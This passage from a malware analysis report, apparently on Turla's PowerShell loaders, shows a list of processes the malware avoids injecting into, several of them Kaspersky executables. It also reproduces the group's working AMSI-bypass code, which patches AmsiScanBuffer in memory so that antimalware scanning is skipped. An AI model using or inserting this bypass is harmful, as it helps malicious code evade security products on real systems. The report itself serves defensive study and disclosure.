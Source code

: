 In some samples, the attackers specify a list of executables that the binary should not be injected into, as shown in
Figure 5

```
$IgnoreNames = @("smss.exe","csrss.exe","wininit.exe","winlogon.exe","lsass.exe","lsm.exe","svchost.exe","avp.exe","avpsus.exe","klnagent.exe","va
pm.exe","spoolsv.exe");
```

**Figure 5. Example list of excluded processes**

It is interesting to note that the names avp.exe, avpsus.exe, klnagent.exe and vapm.exe refer to Kaspersky Labs
executables. It seems that Turla operators really want to avoid injecting their malware into Kaspersky software.

#### AMSI bypass

In some samples deployed since March 2019, Turla developers modified their PowerShell scripts in order to bypass
the <a href="https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal" > Antimalware Scan Interface (AMSI) </a>. This is an interface allowing any Windows application to integrate with the installed antimalware product. It is particularly useful for PowerShell and macros.

They did not find a new bypass but re-used a technique presented at Black Hat Asia 2018 in the talk <a href="https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf" > The Rise and Fall of AMSI </a> . It consists of the in-memory patching of the beginning of the function AmsiScanBuffer in the library
amsi.dll.

The PowerShell script loads a .NET executable to retrieve the address of AmsiScanBuffer. Then, it calls
VirtualProtect to allow writing at the retrieved address.

Finally, the patching is done directly in the PowerShell script as shown in Figure 6. It modifies the beginning of
AmsiScanBuffer to always return 1 (AMSI_RESULT_NOT_DETECTED). Thus, the antimalware product will not
receive the buffer, which prevents any scanning.

```
$ptr = [Win32]::FindAmsiFun();
if($ptr -eq 0)
{
Write-Host "protection not found"
}
else
{
if([IntPtr]::size -eq 4)
{
Write-Host "x32 protection detected"
$buf = New-Object Byte[] 7
$buf[0] = 0x66; $buf[1] = 0xb8; $buf[2] = 0x01; $buf[3] = 0x00; $buf[4] = 0xc2; $buf[5] = 0x18; $buf[6] = 0x00;
#mov ax, 1 ;ret 0x18;
$c = [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 7)
}
else
{
Write-Host "x64 protection detected"
$buf = New-Object Byte[] 6
$buf[0] = 0xb8; $buf[1] = 0x01; $buf[2] = 0x00; $buf[3] = 0x00; $buf[4] = 0x00; $buf[5] = 0xc3;  #mov eax, 1 ;ret;
$c = [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 6)
}
}
```